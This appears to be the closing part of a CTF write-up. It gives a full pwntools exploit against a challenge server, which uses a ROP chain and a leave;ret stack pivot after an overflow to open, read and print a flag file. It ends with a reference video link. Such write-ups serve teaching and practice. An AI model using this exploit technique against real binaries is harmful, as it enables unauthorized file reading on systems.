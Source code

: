 * Whole exploit
    :::spoiler code
    ```python=
    from pwn import *

    #r = process('./chal')
    r = remote('edu-ctf.zoolab.org', 10005)
    raw_input()
    context.arch = 'amd64'

    fn = 0x4e3340
    ROP_addr = 0x4e3360

    pop_rax_ret = 0x45db87
    pop_rdi_ret = 0x4038b3
    pop_rsi_ret = 0x402428
    pop_rdx_rbx_ret = 0x493a2b
    syscall_ret = 0x4284b6
    leave_ret = 0x40190c

    ROP = flat(
       # Open filename
       pop_rax_ret, 2,
       pop_rdi_ret, fn,
       pop_rsi_ret, 0,
       syscall_ret,

       # Read the file
       pop_rax_ret, 0,
       pop_rdi_ret, 3,
       pop_rsi_ret, fn,
       pop_rdx_rbx_ret, 0x30, 0,
       syscall_ret,

       # Write the file
       pop_rax_ret, 1,
       pop_rdi_ret, 1,
       syscall_ret,
       )

    r.sendafter("Give me filename:", '/home/chal/flag\x00')
    r.sendafter("Give me ROP:", b'a'*0x8 + ROP)
    r.sendafter('Give me overflow:', b'a'*0x20 + p64(ROP_addr) + p64(leave_ret))

    r.interactive()
    ```
    :::
# Reference 
[Linux 核心設計: 檔案系統概念及實作手法 (上)](https://youtu.be/d8ZN5-XTIJM)